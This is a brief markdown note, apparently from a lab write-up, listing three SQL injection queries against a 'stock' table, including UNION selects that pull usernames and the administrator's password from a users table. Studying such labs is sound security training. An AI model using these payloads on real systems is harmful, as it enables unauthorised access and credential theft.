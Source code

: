 ![](/img2/Pasted%20image%2020250710002907.png)

- Injection

```sql
SELECT * FROM stock WHERE storeId = 1 or 1=1
```

```sql
SELECT * FROM stock WHERE storeId = 1 union select username from users
```

```sql
SELECT * FROM stock WHERE storeId = 1 union select password from users where username='administrator'
```